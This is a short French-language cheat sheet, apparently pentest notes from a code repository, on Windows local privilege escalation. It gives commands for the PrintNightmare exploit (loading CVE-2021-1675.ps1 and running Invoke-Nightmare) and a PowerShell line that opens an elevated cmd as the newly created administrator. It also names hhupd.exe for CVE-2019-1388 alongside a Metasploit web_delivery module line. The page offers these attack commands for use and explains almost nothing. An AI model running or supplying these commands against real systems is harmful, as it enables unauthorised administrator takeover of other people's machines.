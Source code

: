 # CVE-2021-1675

Vulnerabiliter PrintNightmare LPE qui permet d'elever ses privilege dans un OS Windows : 

```cs
. \CVE-2021-1675.ps1
Invoke-Nightmare
```

Démarrer un cmd en tant que notre nouvelle administrateur : 

```c
Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential {user}
```

# CVE-2019-1388

Le fichier exécutable `hhupd.exe` permet d'exploiter cette vulnérabilité CVE

```
use exploit/multi/script/web_delivery
```